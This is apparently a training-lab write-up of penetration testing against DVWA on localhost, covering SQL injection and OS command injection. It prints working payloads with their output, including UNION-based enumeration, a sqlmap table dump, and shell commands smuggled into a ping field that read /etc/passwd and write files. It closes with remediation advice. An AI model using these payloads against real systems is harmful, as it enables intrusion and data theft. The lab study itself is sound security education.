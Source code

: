 # 📘 Day 4 – Web Application Penetration Testing: SQL Injection & Command Injection

**Target:**

- Application: DVWA (Damn Vulnerable Web App)
- Security Level: Low
- Environment: Docker, localhost

---

## 1️⃣ SQL Injection (SQLi)

### Concept

SQL Injection occurs when user input is inserted directly into SQL queries without proper sanitization, allowing attackers to bypass authentication, extract data, or manipulate the database.

**Example vulnerable query:**

```sql
SELECT first_name, last_name FROM users WHERE id = '$id';

```

**Malicious input:**

```
1' OR '1'='1

```

> This turns the query into always-true, returning all users.
> 

**Impact:**

- Full database disclosure
- Credential theft
- Potential authentication bypass

### Steps & Evidence

**Basic Injection Test**

```
Input: 1' OR '1'='1
Output:
ID: 1' OR '1'='1
First name: admin  Surname: admin
First name: Gordon Surname: Brown
First name: Hack   Surname: Me
First name: Pablo  Surname: Picasso
First name: Bob    Surname: Smith

```

**Database Enumeration**

```
Input: 1' UNION SELECT null, database() --
Output:
Surname: dvwa

Input: 1' UNION SELECT null, schema_name FROM information_schema.schemata --
Output:
Surname: dvwa
Surname: information_schema

```

**Automated Dump with sqlmap**

```bash
sqlmap -u "<http://localhost:8080/vulnerabilities/sqli/?id=1&Submit=Submit>" \\
--cookie="PHPSESSID=SANITIZED; security=low" \\
--dump -D dvwa -T users

```

**Resulting table (sanitized):**

| user_id | user | password (MD5) |
| --- | --- | --- |
| 1 | admin | [HASH] |
| 2 | gordonb | [HASH] |
| 3 | 1337 | [HASH] |
| 4 | pablo | [HASH] |
| 5 | smithy | [HASH] |

> Note: Plaintext passwords removed for public documentation.
> 

---

## 2️⃣ Command Injection (OS Command Execution)

### Concept

Command Injection occurs when user input is passed unsafely to system commands. Attackers can append OS commands using separators (`;`, `&&`, `|`) to execute arbitrary commands.

**Example vulnerable code:**

```php
system("ping -c 4 " . $_GET['ip']);

```

**Malicious input:**

```
127.0.0.1; whoami

```

**Impact:**

- Remote Code Execution (RCE)
- Access to sensitive system files
- File creation/modification
- Potential server takeover

### Steps & Evidence

**Verify Command Execution**

```
Input: 127.0.0.1; whoami
Output: www-data

```

**System Enumeration**

```
Input: 127.0.0.1; id
Output: uid=33(www-data) gid=33(www-data) groups=33(www-data)

```

**File System Inspection**

```
Input: 127.0.0.1; ls -la
Output:
drwxr-xr-x 1 www-data www-data 4096 help
drwxr-xr-x 1 www-data www-data 4096 source
-rw-r--r-- 1 www-data www-data 1830 index.php

```

**Current Working Directory**

```
Input: 127.0.0.1; pwd
Output: /var/www/html/vulnerabilities/exec

```

**Sensitive File Access**

```
Input: 127.0.0.1; cat /etc/passwd
Output:
root:x:0:0:root:/root:/bin/bash
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
mysql:x:101:101:MySQL Server,,,:/nonexistent:/bin/false
...

```

**File Creation Test**

```
Input: 127.0.0.1; echo hacked > /tmp/test.txt
Output: (File /tmp/test.txt created)

```

---

## 3️⃣ Risk Assessment

| Vulnerability | Severity | Impact |
| --- | --- | --- |
| SQL Injection | High | DB dump, credential theft, auth bypass |
| Command Injection | Critical | RCE, server takeover, file system access |

---

## 4️⃣ Recommendations

**SQL Injection:**

- Use prepared statements / parameterized queries
- Validate & sanitize all inputs
- Use least-privilege DB accounts
- Use strong password hashing algorithms

**Command Injection:**

- Never pass raw user input to system commands
- Use input allowlists (e.g., IP regex for ping)
- Run apps with minimal privileges
- Monitor and log system command execution

---

## 5️⃣ Conclusion

- Successfully demonstrated SQLi to extract database records and verify login credentials.
- Successfully demonstrated Command Injection to execute arbitrary commands, read sensitive files, and write to the filesystem.
- Both vulnerabilities represent critical risks that would allow a real attacker to compromise the application and host system.